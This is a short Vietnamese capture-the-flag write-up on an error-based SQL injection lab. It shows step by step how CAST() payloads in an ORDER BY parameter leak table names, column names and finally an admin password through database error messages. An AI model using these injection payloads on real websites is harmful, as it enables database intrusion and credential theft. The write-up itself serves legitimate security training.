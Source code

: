 ## 61. SQL injection - Error
- Đầu tiên phát hiện lỗi sql ở trang content vì dựa vào tham số order nên có thể đoán được hàm dùng là order by ...
- Ở đây dùng hàm Cast() để ép kiểu truyền vào là số nguyên phù hợp với order by.
- Tìm tên bảng vì có nhiều bảng nên limit 1 vào.
```js
GET /web-serveur/ch34/?action=contents&order=,CAST((select table_name from information_schema.tables limit 1) as int)-- - HTTP/1.1

ERROR:  invalid input syntax for integer: "m3mbr35t4bl3"
```
- Vì chỉ có thể hiện được một kết quả nên dùng offset (Chức năng là lấy dữ liệu bỏ qua offset đầu)
- Vì có nhiều cột nên thay đổi offset từ 1->... nhưng chỉ cần quan tâm 2 cột đầu là username và password.
```js
GET /web-serveur/ch34/?action=contents&order=,CAST((select column_name from information_schema.columns limit 1 offset 1) as int)-- - HTTP/1.1

C1: us3rn4m3_c0l
C2: p455w0rd_c0l
C3: em41l_c0l
.......
```
- Lấy username và password thôi
```js
GET /web-serveur/ch34/?action=contents&order=,CAST((select us3rn4m3_c0l from m3mbr35t4bl3 limit 1 offset 0) as int)-- - HTTP/1.1

ERROR:  invalid input syntax for integer: "admin"

GET /web-serveur/ch34/?action=contents&order=,CAST((select p455w0rd_c0l from m3mbr35t4bl3 limit 1 offset 0) as int)-- - HTTP/1.1

ERROR:  invalid input syntax for integer: "1a2BdKT5DIx3qxQN3UaC"
```
```js
Password: 1a2BdKT5DIx3qxQN3UaC
```
